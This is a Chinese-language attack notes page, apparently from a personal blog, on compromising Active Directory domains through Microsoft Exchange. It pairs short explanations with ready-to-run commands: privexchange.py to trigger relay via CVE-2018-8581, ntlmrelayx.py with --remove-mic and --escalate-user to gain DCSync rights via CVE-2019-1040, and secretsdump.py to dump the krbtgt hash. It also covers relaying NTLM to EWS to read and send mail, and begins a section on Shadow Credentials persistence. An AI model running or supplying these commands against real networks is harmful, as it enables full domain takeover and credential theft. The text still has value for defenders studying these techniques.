 ### Exchange

#### LDAP

**存在CVE-2019-1040漏洞的情况下，可以从SMB->LDAP(s)。而无需考虑签名的情况。**

Exchange的机器账户是域内高权账户，对域有WriteDACL权限。即可以赋予任意用户两条ACE：

* 复制目录更改
* 复制目录更改所有项

这样该用户就具备了Dcsync权限，从而可以导出域内所有用户Hash。

当exchange存在SSRF漏洞([CVE-2018-8581](https://github.com/dirkjanm/PrivExchange))时。可触发http类型的NTLM认证。不需要考虑签名问题。

```bash
python3 privexchange.py -d ddc.com -u test1 -p song@2020 -ah 10.10.10.123  10.10.10.21
```

**等待一分钟**

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220217170012-z0eknwi.png)

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220217170234-76xooxz.png)


没有SSRF时，可通过触发SMB类型流量结合CVE-2019-1040移除MIC完整型检验.

```bash
python3 ntlmrelayx.py -t ldaps://10.10.10.10 -debug --escalate-user wukong --remove-mic
```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220215192302-hbl2q2j.png)

```bash
python3 secretsdump.py adc.com/wukong:song@2020@10.10.10.10 -dc-ip 10.10.10.10 -debug -just-dc-user krbtgt

```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220215192403-wbh2ws4.png)

#### EWS

>  Exchange的认证也是支持NTLM SSP的。我们可以relay到Exchange，从而收发邮件，代理等等。在使用outlook的情况下还可以通过homepage或者下发规则达到命令执行的效果。而且这种Relay还有一种好处，将Exchange开放在外网的公司并不在少数，我们可以在外网发起relay，而不需要在内网，这是最刺激的。([Net- NTLM 利用 - windows protocol](https://daiker.gitbook.io/windows-protocol/ntlm-pian/6#2.-relay2ews))

[https://github.com/Arno0x/NtlmRelayToEWS](https://github.com/Arno0x/NtlmRelayToEWS)


### 影子凭证（Shadow Credentials）

#### 隐蔽权限维持。

> 常规Kerberos预认证阶段（pre-auth），客户端用自己的hash加密时间戳给KDC。KDC使用该用户的hash解密，验证通过后返回该用户的TGT。这是对称加密（DES、RC4、AES128、AES256）。Kerberos也支持非对称的认证方式，通过证书（PKINIT）或密钥对实现。需要安装ADCS。​
>
